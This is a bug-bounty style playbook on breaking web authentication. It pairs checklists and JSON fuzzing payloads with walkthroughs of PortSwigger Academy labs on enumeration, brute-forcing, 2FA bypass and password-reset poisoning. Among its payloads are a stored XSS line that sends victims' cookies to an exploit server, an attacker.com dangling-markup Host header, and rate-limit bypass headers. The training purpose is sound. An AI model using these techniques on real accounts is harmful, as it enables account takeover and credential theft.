

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: CSRF](Cross-Site%20Request%20Forgery%20(CSRF).md) >>*
---

# Authentication : Master Playbook

> **Goal:** Bypassing security controls (Login, 2FA, OAuth) to gain unauthorized access to an account or escalate privileges from an unauthenticated state.
> **Triggers:** Any login form, "Forgot Password" link, registration page, 2FA prompt, or social login (Google/GitHub/FB) buttons.
> **Context:** Authentication is the front door. If it's unlocked (broken brute force) or has a hidden back entrance (OAuth misconfig), the rest of the application's security (IDOR, SQLi) might be irrelevant because you're already "inside."
> **Hacker Mindset:** "The server asks for a password. But does it *always* ask? What if I skip the `POST /login2` request and go straight to `/dashboard`? Does it remember who I am, or does it just trust the cookie I stole?"

---

## 0. Exploit Selection Search Tree
*Use this logic to prioritize your Authentication attack surface:*



1.  **Do you have valid usernames and want to identify which ones exist?**
    *   **Yes** → Use **[[#4.1 Lab: Username enumeration via different responses]]**.
2.  **Does the application block your IP after multiple failed attempts?**
    *   **Yes** → Use **[[#4.2 Lab: Broken brute-force protection, IP block]]** (IP Rotation/Reset).
3.  **Does the application lock accounts after too many attempts?**
    *   **Yes** → Use **[[#4.3 Lab: Username enumeration via account lock]]** (Logic Flaw).
4.  **Can you bypass 2FA/MFA by simply navigating to a post-auth page?**
    *   **Yes** → Use **[[#4.4 Lab: 2FA simple bypass]]**.
5.  **Is your "Remember Me" session stored in a guessable cookie?**
    *   **Yes** → Use **[[#4.6 Lab: Brute-forcing a stay-logged-in cookie]]**.
6.  **Can you trick the MFA logic by changing a parameter like `verify=victim`?**
    *   **Yes** → Use **[[#4.5 Lab: 2FA broken logic]]**.
7.  **Is the password reset link leaking via the `Host` or `Referer` headers?**
    *   **Yes** → Use **[[#4.9 Lab: Password reset poisoning via middleware]]**.
8.  **Does the site use Social Login/OAuth for authentication?**
    *   **Yes** → Pivot to **[[OAuth & SAML Vulnerabilities.md|OAuth & SAML: Master Playbook]]**.
9.  **Can you collide two accounts using the same email (e.g., `+` trick)?**
    *   **Yes** → Use **[[#2.1 General Bypass High-Density Methodology (Checklist 2)]]** (Email Collision).

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Brute-Force** | Trying every key on the ring until one turns. | 302 Redirect after multiple attempts. | Logged into victim account. | **High/Critical** (P1) |
| **Enum** | Asking the butler if "Mr. Smith" is home (and he says yes). | "Invalid password" vs "User not found". | Valid username identified. | **Medium** |
| **2FA Bypass** | Climbing through the window because the bouncer is only checking the door. | Missing check on `/dashboard` or `/my-account`. | Bypassed MFA prompt. | **High/Critical** (P1) |
| **Reset Poisoning** | Redirecting the locksmith to send the new keys to your house. | Token leaked in access logs. | Password reset via attacker token. | **High/Critical** (P1) |

---

---

### 1.1 Master JSON Fuzzing Cheat Sheet (97+ Payloads)
| Category | Payload Strategy | Example Snippet (JSON) |
| :--- | :--- | :--- |
| **Baseline/Types** | Basic, Empty, Null | `{"login": "admin", "password": ""}` or `null` |
| **Type Confusion** | Numbers, Booleans, Arrays | `"login": 123`, `"login": true`, `"login": ["admin"]` |
| **Structure** | Objects, Nested, Arrays | `"login": {"username": "admin"}`, `[["admin"]]` |
| **Logic Manipulation** | Missing Keys, Extra Keys | `{"password": "admin"}`, `{"login": "admin", "extra": "val"}` |
| **Key Overrides** | Swapped, Repeated, Case | `{"admin": "login"}`, `{"login": "a", "login": "b"}`, `"LOGIN": "admin"` |
| **Malformed JSON** | Missing braces, Extra commas | `{"login": "admin"`, `{"login": "admin",}` |
| **Sanitization** | SQLi, HTML, unicode | `"admin'--`, `<h1>admin</h1>`, `\u0061\u0064...` |
| **Control Chars** | Null bytes, Tabs, Newlines | `\u0000`, `\t`, `\n`, `\r`, `\b`, `\f`, `\v` |
| **Boundary/Math** | Overlong, Exponential, Hex | `"a"*10000`, `1e5`, `0xabc`, `0x1234`, `000123` |
| **Logic/Injection** | JSON/XML Injection, Env Vars | `{\"injection\":\"v\"}`, `${USER}`, `<https://admin.com>` |
| **Encoding** | Base64, Octal, Unicode | `YWRtaW4=`, `\141\144...`, `admin관리ìž` |
| **Array Bypass** | Multi-pass brute force | `"password": ["123456", "password", "admin"]` (Test if server checks all) |
| **Misc Logic** | Negative nums, Date/Email | `-123`, `admin@com`, `2023-08-03`, `1e+30` |

---

## 2. General Authentication Bypasses (Checklist 2)
> **Goal:** Find flaws in session management, rate limiting, and implementation logic.

### 2.1 General Bypass High-Density Methodology (Checklist 2)
| Vulnerability | Detection / Trigger Area | Action / Payload Strategy |
| :--- | :--- | :--- |
| **Session Control** | Post-auth URLs (stolen/guessable) | Check for session-less access to `/dashboard`, `/settings`. |
| **Captcha Bypass** | Forms gated by CAPTCHA | See the **[[Captcha Bypass.md|Captcha Bypass: Master Playbook]]** for deep-dive bypass vectors. |
| **Logic Flaw** | Critical account changes | Test if email/password/2FA can be changed **without** old password. |
| **Fuzzing Delay** | Registration/Email verification | Register using `myemail%00@target.com` (Null byte truncation). |
| **Rate Limiting** | Any form (Login/Reset/Register) | **Headers:** `X-Originating-IP`, `X-Forwarded-For`, `X-Remote-IP`, `X-Remote-Addr`, `X-Client-IP`, `X-Host`, `X-Forwarded-Host`. Try rotating IPs per request. |
| **PHP Array Bypass** | Filtered inputs (WAF/Logic) | Change `password=val` to `password[]=` to bypass session/CSRF tokens. |
| **Double Reset** | Forgot Password link | Add two emails to the reset request: `email1=victim@com&email2=attacker@com`. |
| **Cache Deception**| Auth endpoints | Append static extensions: `/my-account/profile.css` or `/login.js`. |
| **Dangling Markup**| Reset Poisoning | `Host: victim.com:'<a href="//attacker.com/?` (Steal token via CSS/HTML). |
| **Enumeration** | Reset/Login/Register inputs | Compare error messages: `User exists` vs `User not found`. |
| **Weak Policy** | Password creation/change | Try: Numerical, Lowercase only, Common (`123456`), Short (<6). |
| **Secure Transport** | Registration/Login pages | Verify `HTTPS` usage via Wireshark or browser security tab. |
| **Token Reuse** | Forgot Password flow | Reset password → Don't use token → Log back in → Reset again. |
| **Email Hijack** | Verification flow | Update email to `b@com`, verify, then use old reset link sent to `a@com`. |
| **Mobile API** | Mobile endpoints (Subdomains) | Compare Mobile vs Web protections; check Unicode handling on Mobile. |
| **Google Dorks** | Public registration pages | `site:site.com inurl:register inurl:&` (Find hidden forms). |

## 3. Visual Attack Surface (Mindmap)
> **Summary**: This mindmap illustrates the comprehensive attack surface for Authentication, from credentials to session management.


## 4. PortSwigger Academy: Authentication Bypasses
> **Goal:** Step-by-step walkthroughs for 15+ real-world authentication labs.

### 4.1 Lab: Username enumeration via different responses

**This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:**

- [**Candidate usernames**](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [**Candidate passwords**](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.**

Sol:

1.  **Start Burp and inspect the login page by submitting an invalid username and password.**
2.  **Go to `Proxy > HTTP history` in Burp and locate the `POST /login` request. Highlight the value of the `username` parameter in the request and send it to Burp Intruder.**
    
3.  **Within Burp Intruder, navigate to the Positions tab. Observe that the `username` parameter is automatically set as a payload position.**
    
4.  **Ensure that the Sniper attack type is selected.**
5.  **On the Payloads tab, ensure that the Simple list payload type is selected.**
6.  **Under Payload settings, paste the list of candidate usernames. Finally, click Start attack.**
7.  **Explore the Length column on the Results tab. Note that one of the entries is longer than the others. Compare this payload's response with the other responses.**
    
8.  **Note that other responses contain the message `Invalid username`, but this response says `Incorrect password`.**
    
9.  **Close the attack and return to the Positions tab. Modify the `username` parameter to the username identified and add a payload position to the `password` parameter.**
10. **On the Payloads tab, replace the usernames with the list of candidate passwords. Click Start attack.**
11. **Once the attack is finished, observe the Status column. A `302` response suggests a successful login.**
    
12. **Log in using the discovered username and password to solve the lab.**

### 4.2 Lab: Broken brute-force protection, IP block

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Hint**
Advanced users may want to solve this lab by using a macro or the Turbo Intruder extension. However, it is possible to solve the lab without using these advanced features.

**Solutions**

1.  With Burp running, investigate the login page. Observe that your IP is temporarily blocked if you submit 3 incorrect logins in a row. However, notice that you can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached.

2.  Enter an invalid username and password, then send the `POST /login` request to Burp Intruder. Create a pitchfork attack with payload positions in both the `username` and `password` parameters.

3.  Click  **Resource pool** to open the **Resource pool** side panel, then add the attack to a resource pool with **Maximum concurrent requests** set to `1`. By only sending one request at a time, you can ensure that your login attempts are sent to the server in the correct order.

4.  Click  **Payloads** to open the **Payloads** side panel, then select position `1` from the **Payload position** drop-down list. Add a list of payloads that alternates between your username and `carlos`. Make sure that your username is first and that `carlos` is repeated at least 100 times.

5.  Edit the list of candidate passwords and add your own password before each one. Make sure that your password is aligned with your username in the other list.

6.  Select position `2` from the **Payload position** drop-down list, then add the password list. Start the attack.

7.  When the attack finishes, filter the results to hide responses with a `200` status code. Sort the remaining results by username. There should only be a single `302` response for requests with the username `carlos`. Make a note of the password from the **Payload 2** column.

8.  Log in to Carlos's account using the password that you identified and access his account page to solve the lab.

1.  **Investigate the login page. Observe that your IP is temporarily blocked after 3 incorrect logins.**
    
2.  **Notice that logging into your own account (`wiener:peter`) resets the failure counter.**
    
3.  **Create a Pitchfork attack in Intruder targeting both the `username` and `password` parameters.**
4.  **Set the resource pool to 1 concurrent request to maintain the exact sequence.**
5.  **Configure Position 1 with an alternating list (wiener, carlos, carlos...).**
    
6.  **Configure Position 2 with the password list (peter, password123, password456...).**
    
7.  **Identify the successful login by filtering for 302 redirects in the results.**
    
8.  **Note the valid credential pair found.**
    
9.  **Log in as Carlos to solve the lab.**

### 4.3 Lab: Username enumeration via account lock

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Solution**

1.  With Burp running, investigate the login page and submit an invalid username and password. Send the `POST /login` request to Burp Intruder.

2. Select **Cluster bomb attack** from the attack type drop-down menu. Add a payload position to the `username` parameter. Add a blank payload position to the end of the request body by clicking **Add §**. The result should look something like this:

```php
username=§invalid-username§&password=example§§
```

3.  In the **Payloads** side panel, add the list of usernames for the first payload position. For the second payload position, select the **Null payloads** type and choose the option to generate 5 payloads. This will effectively cause each username to be repeated 5 times. Start the attack.

4.  In the results, notice that the responses forone of the usernames were longer than responses when using other usernames. Study the response more closely and notice that it contains a different error message: `You have made too many incorrect login attempts.` Make a note of this username.

5.  Create a new Burp Intruder attack on the `POST /login` request, but this time select **Sniper attack** from the attack type drop-down menu. Set the `username` parameter to the username that you just identified and add a payload position to the `password` parameter.

6.  Add the list of passwords to the payload set and create a grep extraction rule for the error message. Start the attack.

7.  In the results, look at the grep extract column. Notice that there are a couple of different error messages, but one of the responses did not contain any error message. Make a note of this password.

1.  **Submit an invalid username and password. Send the `POST /login` request to Intruder.**
2.  **Select Cluster Bomb attack type. Add positions for `username` and an extra null position.**
    
3.  **Generate 5 null payloads per username to trigger the account lock mechanism for valid users.**
4.  **Identify the unique response: one username returns a length change or a specific "Account locked" message after repeated attempts.**
    
5.  **Study the response: `You have made too many incorrect login attempts.` indicates a valid user.**
    
6.  **Switch to a Sniper attack with the identified username and brute-force the passwords.**
    
7.  **Grep for the extraction of the error message to find the 302 success or an empty error field.**
    
8.  **Wait for the lock to reset, then log in.**

### 4.4 Lab: 2FA simple bypass

**This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.**

- **Your credentials: `wiener:peter`**
- **Victim's credentials `carlos:montoya`**

**Solution:**

1. **Log into your own account and note the 2FA code delivery.**
    
2. **Proceed to your account page and copy the URL (`/my-account`).**
3. **Log out and log in as Carlos.**
4. **At the 2FA prompt, immediately navigate to `/my-account` in the URL bar.**
    
5. **Observe that the 2FA check is skipped.**

### 4.5 Lab: 2FA broken logic

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

You also have access to the email server to receive your 2FA verification code.

**Hint**

Carlos will not attempt to log in to the website himself.

**Solution**

1. With Burp running, log in to your own account and investigate the 2FA verification process. Notice that in the `POST /login2` request, the `verify` parameter is used to determine which user's account is being accessed.

2. Log out of your account.

3. Send the `GET /login2` request to Burp Repeater. Change the value of the `verify` parameter to `carlos` and send the request. This ensures that a temporary 2FA code is generated for Carlos.

4.  Go to the login page and enter your username and password. Then, submit an invalid 2FA code.

5.  Send the `POST /login2` request to Burp Intruder.

6.  In Burp Intruder, set the `verify` parameter to `carlos` and add a payload position to the `mfa-code` parameter. Brute-force the verification code.

7.  Load the 302 response in the browser.

8.  Click **My account** to solve the lab.

1. **Log in to your own account and investigate the 2FA verification process.**
    
2. **Notice that the `verify` parameter in the `POST /login2` request determines which user is being accessed.**
    
3. **Change the `verify` parameter to `carlos` in Repeater and send the request to generate a code for him.**
    
4. **Brute-force the `mfa-code` parameter in Intruder while keeping `verify=carlos`.**
    
5. **Load the 302 response in the browser to access Carlos's account.**

### 4.6 Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his **My account** page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

 **Solution**

1. With Burp running, log in to your own account with the **Stay logged in** option selected. Notice that this sets a `stay-logged-in` cookie.
2. Examine this cookie in the Inspector panel. You'll notice it's Base64-encoded with a decoded value of `wiener:51dc30ddc473d43a6011e9ebba6ca770`. The length and character set suggest this is an MD5 hash. Since the plaintext contains your username, it's likely a hash of your password. Verify this by hashing your password with MD5. The cookie's construction format is:
`base64(username+':'+md5HashOfPassword)`
3. Log out of your account.
4. In the most recent `GET /my-account?id=wiener` request, highlight the `stay-logged-in` cookie parameter and send it to Burp Intruder.
5. In Burp Intruder, the `stay-logged-in` cookie will be automatically added as a payload position. Add your own password as a single payload.
6. Under **Payload processing**, add these rules in sequence:
    - ◦ Hash: `MD5`
    - ◦ Add prefix: `wiener:`
    - ◦ Encode: `Base64-encode`
7. The **Update email** button appears only on authenticated **My account** pages. We'll use this to verify successful cookie brute-forcing. In the **Settings** panel, add a grep match rule for `Update email`. Start the attack.
8. Verify that the generated payload successfully loads your account page. This confirms your payload processing rules are working correctly.
9. Now modify the attack with these changes:
    - ◦ Replace your password with the list of candidate passwords
    - ◦ Change the `id` parameter to `carlos`
    - ◦ Update the **Add prefix** rule to use `carlos:`
10. After the attack completes, look for the single response containing `Update email`. The payload from this request is Carlos's valid `stay-logged-in` cookie.

1. **Log in with "Stay logged in" selected and observe the `stay-logged-in` cookie.**
    
2. **Identify the cookie format: `base64(username:md5(password))`.**
    
3. **Brute-force Carlos's cookie by automating the MD5 and Base64 encoding in Intruder.**

### 4.7 Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

**Solution**

1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the `stay-logged-in` cookie is Base64 encoded.
2. In the **Proxy > HTTP history** tab, go to the **Response** to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:`username+':'+md5HashOfPassword`
3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID: `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit server.net/'+document.cookie</script>`
6. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie.
7. Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`
8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

### Note

The purpose of this lab is to demonstrate the potential of cracking passwords offline. Most likely, this would be done using a tool like hashcat, for example. When testing your clients'  websites, we do not recommend submitting hashes of their real passwords in a search engine.

1. **Examine your own `stay-logged-in` cookie to confirm the `username:md5(password)` structure.**
    
2. **Inject a stored XSS payload into the blog comments to steal cookies.**
    
3. **Monitor the exploit server access logs for the victim's request.**
    
4. **Capture the victim's cookie: `carlos:26323...`.**
    
5. **Crack the MD5 hash offline (e.g., via a search engine or hashcat).**
    
6. **Identify the password (e.g., `onceuponatime`).**
    
7. **Log in as Carlos and access the management panel.**
    
8. **Delete the account to solve the lab.**
    

### 4.8 Lab: Password reset broken logic

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

**Solution**

1. Start Burp and click the **Forgot your password?** link. Enter your own username.
2. Click the **Email client** button to view the password reset email. Click the link in the email and reset your password.
3. In Burp, go to **Proxy > HTTP history** and examine the password reset requests and responses. Note that the reset token appears as a URL query parameter in the email. When submitting your new password, the `POST /forgot-password?temp-forgot-password-token` request includes the username as a hidden input. Send this request to Burp Repeater.
4. In Burp Repeater, test removing the `temp-forgot-password-token` parameter from both the URL and request body. The password reset still works, confirming that the token isn't being validated.
5. In the browser, request another password reset and change your password again. Send the `POST /forgot-password?temp-forgot-password-token` request to Burp Repeater.
6. In Burp Repeater, remove the `temp-forgot-password-token` parameter from both the URL and request body. Change the `username` parameter to `carlos` and set a new password.
7. Log in to Carlos's account using your newly set password and click **My account** to complete the lab.
8. Start Burp and click the **Forgot your password?** link. Enter your own username.
9. Click the **Email client** button to view the password reset email. Click the link in the email and reset your password.
10. In Burp, go to **Proxy > HTTP history** and examine the password reset requests and responses. Note that the reset token appears as a URL query parameter in the email. When submitting your new password, the `POST /forgot-password?temp-forgot-password-token` request includes the username as a hidden input. Send this request to Burp Repeater.
11. In Burp Repeater, test removing the `temp-forgot-password-token` parameter from both the URL and request body. The password reset still works, confirming that the token isn't being validated.
12. In the browser, request another password reset and change your password again. Send the `POST /forgot-password?temp-forgot-password-token` request to Burp Repeater.
13. In Burp Repeater, remove the `temp-forgot-password-token` parameter from both the URL and request body. Change the `username` parameter to `carlos` and set a new password.
14. Log in to Carlos's account using your newly set password and click **My account** to complete the lab.

1. **Intercept the password reset submission request.**
    
2. **Observe that the `temp-forgot-password-token` is present but might not be validated.**
    
3. **Remove the token and change the `username` to `carlos`.**
    
4. **Observe the successful response despite the missing token.**
    
5. **Log in with the new password for Carlos's account.**
    
6. **Access the "My account" page to solve.**
    

### 4.9 Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.
        
**Solution**

- With Burp running, investigate the password reset functionality. Observe that a link containing a unique reset token is sent via email.
- Send the `POST /forgot-password` request to Burp Repeater. Notice that the `X-Forwarded-Host` header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain.
- Go to the exploit server and make a note of your exploit server URL.
- Go back to the request in Burp Repeater and add the `X-Forwarded-Host` header with your exploit server URL: `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
- Change the `username` parameter to `carlos` and send the request.
- Go to the exploit server and open the access log. You should see a `GET /forgot-password` request, which contains the victim's token as a query parameter. Make a note of this token.
- Go back to your email client and copy the valid password reset link (not the one that points to the exploit server). Paste this into the browser and change the value of the `temp-forgot-password-token` parameter to the value that you stole from the victim.
- Load this URL and set a new password for Carlos's account.
- Log in to Carlos's account using the new password to solve the lab.

1. **Intercept the `POST /forgot-password` request in Repeater.**
    
2. **Add the `X-Forwarded-Host` header pointing to your exploit server.**
    
3. **Send the request for user `carlos`.**
    
4. **Monitor the exploit server access log for a `GET` request containing the token.**
    
5. **Note the token leaked in the URL.**
    
6. **Use the stolen token with the legitimate reset URL.**
    
7. **Submit the new password for Carlos.**
    
8. **Observe the login success.**
    
9. **Access the "My account" page.**
    

### 4.10 Lab: Password brute-force via password change

This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Solution**

- With Burp running, log in and experiment with the password change functionality. Observe that the username is submitted as hidden input in the request.
- Notice the behavior when you enter the wrong current password. If the two entries for the new password match, the account is locked. However, if you enter two different new passwords, an error message simply states `Current password is incorrect`.  If you enter a valid current password, but two different new passwords, the message says `New passwords do not match`. We can use this message to enumerate correct passwords.
- Enter your correct current password and two new passwords that do not match. Send this `POST /my-account/change-password` request to Burp Intruder.
- In Burp Intruder, change the `username` parameter to `carlos` and add a payload position to the `current-password` parameter. Make sure that the new password parameters are set to two different values. For example: `username=carlos&current-password=§incorrect-password§&new-password-1=123&new-password-2=abc`
- In the **Payloads** side panel, enter the list of passwords as the payload set.
- Click  **Settings** to open the **Settings** side panel, then add a grep match rule to flag responses containing `New passwords do not match`. Start the attack.
- When the attack finished, notice that one response was found that contains the `New passwords do not match` message. Make a note of this password.
- In the browser, log out of your own account and lock back in with the username `carlos` and the password that you just identified.
- Click **My account** to solve the lab.

1. **Observe the password change form and how it handles current password errors.**
    
2. **Identify that different error messages are returned if the current password is correct vs incorrect.**
    
3. **Use two different "New password" values to trigger the "New passwords do not match" message only when the current password is valid.**
    
4. **Run a Sniper attack in Intruder targeting the `current-password` field.**
    
5. **Grep for "New passwords do not match" to find the valid password.**
    
6. **Note the correct password found for Carlos.**
    

---

## 5. Resources & High-Performance Tools
> **Goal:** Access elite wordlists, research portals, and automation scripts for Authentication.

### 5.1 Expert Research & Deep Dives
- [**A Practical Guide to Authentication and Session Management**](https://infosecwriteups.com/a-practical-guide-to-authentication-and-session-management-vulnerabilities-517f5412a02a?sk=f291980b86a6d42da5927e6210e4d36e) (Master Class)
- [**Intigriti: Broken Authentication Guide**](https://www.intigriti.com/researchers/blog/hacking-tools/broken-authentication-a-complete-guide-to-exploiting-advanced-authentication-vulnerabilities) (Advanced Techniques)
- [**The Zero Hack: Microsoft Account Hijack via Race Condition**](https://thezerohack.com/how-i-might-have-hacked-any-microsoft-account) (Case Study)

### 5.2 Wordlists & Payload Generators
- [**97 JSON Authentication Tests (LinkedIn Port)**](https://www.linkedin.com/feed/update/urn:li:activity:7097279293608607746/) (Baseline Strategy)
- [**Tuhin’s Rate Limit Bypass Methodology**](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/Rate%20Limit%20Bypasses.md) (Header Smuggling)
- [**Captcha Bypass: Master Playbook**](Captcha%20Bypass.md) (Consolidated Gold Standard)

### 5.3 Pro-Tips from the Vault
- **Null Byte Truncation**: Test `POST /forgot-password%20` or `email=victim@target.com%00`.
- **API Versioning**: If `v2` is secured, check `v1` or `v0` endpoints for legacy logic.
- **Gmail +/. Trick**: `myemail+1@target.com` vs `m.y.e.m.a.i.l@target.com` (Collision tests).

---

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: CSRF](Cross-Site%20Request%20Forgery%20(CSRF).md) >>*
